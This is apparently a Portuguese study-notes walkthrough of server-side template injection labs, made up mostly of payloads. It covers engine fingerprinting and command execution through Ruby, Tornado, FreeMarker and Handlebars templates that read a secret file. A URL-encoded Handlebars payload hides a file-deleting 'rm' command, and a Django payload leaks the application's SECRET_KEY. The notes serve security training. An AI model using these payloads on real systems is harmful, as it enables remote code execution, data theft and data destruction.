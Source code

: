 # SSTI - Server Side Template Injection

Payloads genéricos:
```
${{<%[%'"}}%\

fuzzer${{<%[%'"}}%\<>
```

Payloads para identificar a engine:
```
{{7*7}}, ${7*7},<% = 7*7 %>, ${{7*7}}, #{7*7}, *{7*7}
```

Normalmente aparece na opção "View details", mas teste em qualquer lugar que reflita o valor na resposta.
![image](https://github.com/user-attachments/assets/c74addd5-8b61-4973-ae92-a8d9ac80f056)

<br>

## Laboratórios

**Basic Server-Side Template Injection**

Encontre o template com:
```
<%= 7 * 7 %>
```

Identifique é Ruby, então utilize:
```
<%= system("cat /home/carlos/secret") %>
```

<br>
<br>

**Basic Server-Side Template Injection (code context)**

Observe a requisição nas configurações de Preferred name.
```
blog-post-author-display=user.name
```

Tente o payload abaixo e verá o template ser renderizado nos comentários do blog.
```
blog-post-author-display=user.name}}{{7*7}}
```

Para conseguir RCE com o template Tornado:
```
{% import os %}{{os.system('whoami')}}
```

Versão adaptada:
```
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('cat+/home/carlos/secret')}}
```

<br>
<br>

**Server-Side Template Injection Using Documentation**

Isso funciona:
```
${7*7}
#{7*7}
```

Para triggar um erro:
```
${7/0}
```

Desse jeito descobrimos o template FreeMarker, para conseguir RCE:
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("cat /home/carlos/secret")}
```

<br>
<br>

**Server-Side Template Injection in an Unknown Language with a Documented Exploit**

Para triggar um erro:
```
{{7*7}}
```

Descobrimos que o template é Handlebars NodeJS:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('cat /home/carlos/secret');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Encode em URL:
```
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

<br>
<br>

Server-Side Template Injection with Information Disclosure via User-Supplied Objects

Para triggar um error:
```
{{7*7}} ou ${{<%[%'"}}%\,
```

Descobrimos o framerwork Django e confirmamos com:
```
{% debug %}
```

Para dumpar a chave:
```
{{settings.SECRET_KEY}}
```
